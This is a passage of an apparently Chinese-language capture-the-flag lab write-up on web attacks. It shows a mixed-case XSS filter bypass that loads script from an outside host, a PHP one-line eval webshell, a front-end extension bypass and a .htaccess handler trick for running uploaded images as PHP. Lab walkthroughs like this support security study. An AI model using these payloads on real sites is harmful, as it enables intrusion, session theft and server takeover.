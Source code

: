 ### 过滤关键词
测试过滤`script``img``onerror`

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751638837030-b3afb61c-bb4c-4290-aa6b-b1918df77366.png)

大写绕过

```html
<sCRiPt sRC=//xs.pe/s2x></sCrIpT>
```

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751771673689-e7e96a51-dba7-4f55-8a58-b2d56d59ada7.png)

## 五、文件上传
### 无验证
构造一句话木马`shell.php`

```php
<?php echo 123;@eval($_POST['code']);?>
```

上传成功

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751683007585-c56c219f-d6ed-41cf-8049-3dd76d2b0230.png)

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751683027797-56c5b548-5d86-4548-97cf-400fbd1b29ab.png)

蚁剑获取到flag文件

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751683103706-76cdb95f-0c6c-4613-b158-e8d5264f48f7.png)

### 前端验证
上传`shell.php.jpg`bp抓包修改后缀，上传成功，蚁剑连接

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751683345122-ea040dd8-eb4e-4132-acbd-3ab843666910.png)

### .htaccess
创建`.htaccess`文件上传

```php
<FilesMatch "wshell">
Sethandler application/x-httpd-php
</FilesMatch>
```

上传`shell.gif`木马

代码成功执行

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751683750525-897fcb8c-b4f6-4425-ad22-ebf5ac9a929a.png)

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751683803867-9f0206aa-cd20-4c7b-b2d8-89be049c9bb4.png)
